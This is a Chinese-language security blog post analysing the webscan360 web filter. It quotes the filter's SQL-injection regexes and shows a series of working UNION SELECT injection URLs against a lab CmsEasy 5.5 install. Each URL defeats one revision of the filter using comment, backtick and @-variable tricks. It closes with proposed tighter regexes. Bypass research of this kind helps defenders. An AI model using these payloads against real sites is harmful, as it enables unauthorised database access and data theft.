




# Webscan360 的防御与绕过

2014/11/06 13:51 | [menmen519](http://drops.wooyun.org/author/menmen519 "由 menmen519 发布") | [web 安全](http://drops.wooyun.org/category/web "查看 web 安全 中的全部文章"), [技术分享](http://drops.wooyun.org/category/tips "查看 技术分享 中的全部文章") | 占个座先 | 捐赠作者

这两天给 360 做了一个 webscan360 的总结，结果补丁还没有出来，就被人公布到了 91org 上面，既然公开了，那我就做一个总结

首先我们贴上它最新的防御正则

```
\<.+javascript:window\[.{1}\\x|<.*=(&#\d+?;?)+?>|<.*(data|src)=data:text\/html.*>|\b(alert\(|confirm\(|expression\(|prompt\(|benchmark\s*?\(.*\)|sleep\s*?\(.*\)|load_file\s*?\()|<[a-z]+?\b[^>]*?\bon([a-z]{4,})\s*?=|^\+\/v(8|9)|\b(and|or)\b\s*?([\(\)'"\d]+?=[\(\)'"\d]+?|[\(\)'"a-zA-Z]+?=[\(\)'"a-zA-Z]+?|>|<|\s+?[\w]+?\s+?\bin\b\s*?\(|\blike\b\s+?["'])|\/\*.*\*\/|<\s*script\b|\bEXEC\b|UNION.+?SELECT@{0,2}(\(.+\)|\s+?.+?|(`|'|").*?(`|'|"))|UPDATE@{0,2}(\(.+\)|\s+?.+?|(`|'|").*?(`|'|"))SET|INSERT\s+INTO.+?VALUES|(SELECT|DELETE)@{0,2}(\(.+\)|\s+?.+?\s+?|(`|'|").*?(`|'|"))FROM(\(.+\)|\s+?.+?|(`|'|").*?(`|'|"))|(CREATE|ALTER|DROP|TRUNCATE)\s+(TABLE|DATABASE)|\/\*.*?\*\/|' 
```

首先我们追溯一下：

方开始的时候并没有这个正则表达式`\/\*.*?\*\/|'`

所以当时我们可以写为：

```
union select/**/1,2,3 
```

这里我们用 cmseasy 举例子

我们发送 url：

```
http://192.168.10.70/CmsEasy_5.5_UTF-8_20141015/uploads/index.php?case=archive&act=orders&aid[typeid%60%3d1%20UNION%20SELECT/**/1,2,3,concat(version(),user()),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30,31,32,33,34,35,36,37,38,39,40,41,42,43,44,45,46,47,48,49,50,51,52,53,54,55,56,57,58 from cmseasy_archive ORDER BY 1%23]=1 
```

这时候我们是完全可以取出来敏感信息，成功绕过：



第二次被修补之后加上了后面的正则表达式，导致通篇不能写/**/这样的字符，但是这样真的能防御住吗：

我们利用 mysql 的一个特性：

```
union select`colum`,2,3 
```

这种特性是完全可以执行的

所以我们改变一下思路发送 url:

```
http://192.168.10.70/CmsEasy_5.5_UTF-8_20141015/uploads/index.php?case=archive&act=orders&aid[typeid%60%3d1%20UNION%20SELECT`typeid`,2,3,concat(version(),user()),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30,31,32,33,34,35,36,37,38,39,40,41,42,43,44,45,46,47,48,49,50,51,52,53,54,55,56,57,58 from cmseasy_archive ORDER BY 1%23]=1 
```

这样就成功绕过了：



修补之后：

```
union select`colum`,2,3 
```

这种被正则 `(`|'|").*?(`|'|")` 这个给过滤了

下载下来之后，发现正则表达式

```
(\(.+\)|\s+?.+?|(`|'|").*?(`|'|")) 
```

发现这是后修补了小引号，但是本质问题还是没有变

在 sql 中我们还有另外一个特性：

```
union select@`1`,2,3 
```

这样也是可以执行，那么就成功绕过了：

所以我们改变一下思路发送 url:

```
http://192.168.10.70/CmsEasy_5.5_UTF-8_20141015/uploads/index.php?case=archive&act=orders&aid[typeid%60%3d1%20UNION%20SELECT@`typeid`,2,3,concat(version(),user()),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30,31,32,33,34,35,36,37,38,39,40,41,42,43,44,45,46,47,48,49,50,51,52,53,54,55,56,57,58 from cmseasy_archive ORDER BY 1%23]=1 
```



此时有打了补丁，这时候正则又变成了

```
@{0,2}(.+|\(.+\)|\s+?.+?|(`|'|").*?(`|'|")) 
```

这个正则的意思修补了刚才的那种类型，但是这个正则真正鸡肋的地方在如果不接小引号，那么这个正则就失效了

所以我们可以在进行变形处理 `union select@1,2,3`这种没有被过滤，直接可以通过 这种形式的是可以在 sql 语句里面运行的，而且不报错

`union select@1=@1,2,3` 这种也是没有被过滤，直接可以通过，这种也是可以再 mysql 完美执行的

发送 url:

```
http://192.168.10.70/CmsEasy_5.5_UTF-8_20141015/uploads/ index.php?case=archive&act=orders&aid[typeid%60%3d1%20UNION%20SELECT@typeid,2,3,concat(version(),user()),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30,31,32,33,34,35,36,37,38,39,40,41,42,43,44,45,46,47,48,49,50,51,52,53,54,55,56,57,58 from cmseasy_archive ORDER BY 1%23]=10 
```



以上就是 webscan360 的进化，那么我们来分析一下怎么去修补这个漏洞

最后我们给出来的正则

```
@{0,2}(.+|\(.+\)|\s+?.+?|(`|'|").*?(`|'|")) 
```

然后进行测试 成功的拦截了 union select 类型的 当然了后面的 update 类型的 和 insert 类型也要进行相应的改进

下来让我们在看其他地方一个正则

```
INSERT\s+INTO.+?VALUES 
```

这个是太传统的写法 其实根据 mysql 的写法 这个会拦截`insert into t values(1,2,3)` 但是插入操作不止是这样的写法 `insert into t set a=1` 这个是不会被拦截的 所以还得加上一个正则

```
INSERT\s+INTO.+?(VALUES|SET) 
```

版权声明：未经授权禁止转载 [menmen519](http://drops.wooyun.org/author/menmen519 "由 menmen519 发布")@[乌云知识库](http://drops.wooyun.org)

分享到：

### 相关日志

*   [攻击 JavaWeb 应用[4]-SQL 注入[2]](http://drops.wooyun.org/tips/288)
*   [Mysql Trigger](http://drops.wooyun.org/tips/3435)
*   [DVWA 中学习 PHP 常见漏洞及修复方法](http://drops.wooyun.org/papers/483)
*   [waf 绕过的技巧](http://drops.wooyun.org/tips/132)
*   [SqlServer 2005 Trigger](http://drops.wooyun.org/tips/3464)
*   [Drupal – pre Auth SQL Injection Vulnerability](http://drops.wooyun.org/papers/3197)